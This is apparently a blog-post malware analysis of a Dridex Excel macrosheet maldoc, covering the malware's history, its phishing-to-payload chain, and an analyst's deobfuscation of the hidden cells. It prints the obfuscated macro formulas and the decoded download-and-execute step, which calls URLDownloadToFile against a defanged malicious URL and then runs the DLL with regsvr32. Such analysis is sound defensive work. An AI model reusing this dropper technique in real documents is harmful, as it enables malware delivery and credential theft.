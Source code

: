 ```yaml
---
layout: post
title: Dridex crimeware/malware
---
```


| Malware | APT |
|-------|--------|
| [Dridex](https://malpedia.caad.fkie.fraunhofer.de/details/win.dridex) | [Indrik Spider](https://malpedia.caad.fkie.fraunhofer.de/actor/indrik_spider) , Evil Corp|

## Dridex
An evasive, information-stealing malware variant; its goal is to acquire as many credentials as possible and return them via an encrypted tunnel to a Command-and-Control (C&C) server. These C&C servers are numerous and scattered all over the Internet, if the malware cannot reach one server it will try another. For this reason, network-based measures such as blocking the C&C IPs is effective only in the short-term. -- OxCERT


### History 
[Treasury Sanctions Evil Corp, the Russia-Based Cybercriminal Group Behind Dridex Malware](https://home.treasury.gov/news/press-releases/sm845)
```As of 2015, Yakubets maintained control of the Dridex malware```

 * First dridex apeard on the chart was back in 2014 June
 * moving on it started creating its army of botnets(mid 2014- mid 2015)
 * botnet was taken down by USA in late 2015
 * it resurfaced again in 2016 and assembelled more that 30 botnets.
 * By the mid of july 2017 dridex started ransomware infection, likes of [Bitpaymer](https://malpedia.caad.fkie.fraunhofer.de/details/win.friedex), [DoppelPaymer](https://malpedia.caad.fkie.fraunhofer.de/details/win.doppelpaymer), [WastedLocker](https://malpedia.caad.fkie.fraunhofer.de/details/win.wastedlocker)

funfact: botnets are named after there botnet IDs like 10111, 40200, 40300 etc


### Mechanism

Malspam(email)--> Maldoc(excel/word)+macro --> VBA macro --> powershell script --> payload download --> payload execution

Mostly the Maldoc are excel documents and the urls are obfuscated as cell contents. then VBA function de-obfuscate the sheet and downlaod the payload either using powershell or Windows API, moslty powershell.

## Sample used : f06910daadc7c66c8e9064d0719ed6727d69c1f04ab13566cadbb6e7a9f52a7e maldoc: thanks to abuse.ch

## Initial Access :
###    Phishing:
        Spearphish Attachment : compressed macros docs, Pdfs, Js, Jar, etc
        Spearphish Link : link to above compressed files (Mostly Compromised and public Cloud storage are used)


## Execution:
###    Command and Scripting Interpreter:
        Macro
        Powershell
        
### Use olevba3 to extract the macrosheet or use openpyxl to get the cell contents.

This sample is using XML macrosheets which is still(for 30 years if i am not wrong) there to support backward compatibility.Now VBA macros are used instead of macrosheets.
Execution is from left to right AND top to bottom cell in xls macrosheet
All sheets are hidden, 

Sheets are heaviliy ofuscated.

Code to get cell contents:

```
import openpyxl
book = openpyxl.load_workbook('binary.xlsm')
for w in book.worksheets:
   s = book.get_sheet_by_name(w.title)
   for r in s.rows:
       for c in r:
         if c.value != None:
           print c,c.value
 ``` 
 ### Keywords
 #### FORMULA.FILL : to put data or formula to the cell.
        `FORMULA.FILL('Doc2'!AP94&'Doc1'!AW54&'Doc1'!AY54&'Doc1'!AV68&'Doc1'!AX68&'Doc1'!AZ68&".html",'Doc1'!AM23)`
 #### Workbook.hide : it will hide the sheets 
        `WORKBOOK.HIDE("Doc1",1)`
 #### SET.VALUE: to set value of cell
        `SET.VALUE(AM19,AV39&'Doc1'!AV40&'Doc1'!AV41&'Doc1'!AV42&'Doc1'!AV43)`
 #### CALL : In Macrosheet you can call functions from the cell :)
Even you can call the DLL fucntion using CALL function. (urlmon.urldownloadtofile())
        `CALL('Doc1'!AM19&"n",'Doc1'!AM20&"A",'Doc1'!AM30,'Doc2'!AR84,'Doc1'!AM23,'Doc1'!AO15&".dll",0,0)`
 #### EXEC : it will execute the code provided as argument.
        `EXEC(AM34&AO15)`
 #### & : it will just concat the strings.


Demo sequence:

        decode the call urls
        decode the call function
        run the downlaoded dll.
```
        <Cell u'Doc1'.AO20> =EXEC(**AM34**&**AO15**) = **regsvr32 -s ..\ghnrope**
        AM34 = SET.VALUE(AM34,AO73)
            AO73 = <Cell u'Doc1'.AO73> =**"regsvr32 -s "**    
        <Cell u'Doc1'.AO15> =**"..\ghnrope"**
        CALL('Doc1'!AM19&"n",'Doc1'!AM20&"A",'Doc1'!AM30,'Doc2'!AR84,'Doc1'!AM23,'Doc1'!AO15&".dll",0,0)
        AM19 = SET.VALUE(AM19,AV39&'Doc1'!AV40&'Doc1'!AV41&'Doc1'!AV42&'Doc1'!AV43) = URLMo
                <Cell u'Doc1'.AV39> =CHAR(85)
                <Cell u'Doc1'.AV40> R
                <Cell u'Doc1'.AV41> L
                <Cell u'Doc1'.AV42> M
                <Cell u'Doc1'.AV43> o
       AM20=SET.VALUE(AM20,'Doc2'!AQ74&'Doc2'!AQ75&'Doc2'!AQ76&'Doc2'!AQ77&'Doc2'!AQ78&'Doc2'!AQ79&'Doc2'!AQ80&'Doc2'!AQ81&'Doc2'!AQ82&'Doc2'!AQ83&'Doc2'!AQ84&'Doc2'!AQ85&'Doc2'!AQ86&'Doc2'!AQ87&'Doc2'!AQ88&'Doc2'!AQ89&'Doc2'!AQ90)
       Similarl as above : URLDownloadToFile
      AM30 =  SET.VALUE(AM30,'Doc2'!AR74&'Doc2'!AR75&'Doc2'!AR76&'Doc2'!AR77&'Doc2'!AR78&'Doc2'!AR79)
        AM30= JJCCBB
      AR84 = 0
      AM23 =FORMULA.FILL('Doc2'!AP94&'Doc1'!AW54&'Doc1'!AY54&'Doc1'!AV68&'Doc1'!AX68&'Doc1'!AZ68&".html",'Doc1'!AM23)
        http[:]//runolfsson-jayde07s.ru.com/ind[.]html
        AO15 = ..\ghnrope`
   ```
   
   CALL("URLMo"&"n","URLDownloadToFile"&"A",JJCCBB,0,"http[:]//runolfsson-jayde07s.ru.com/ind[.]html","..\ghnrope"&".dll")
   
more reading https://superuser.com/questions/1253212/what-is-macro-worksheet-in-excel 

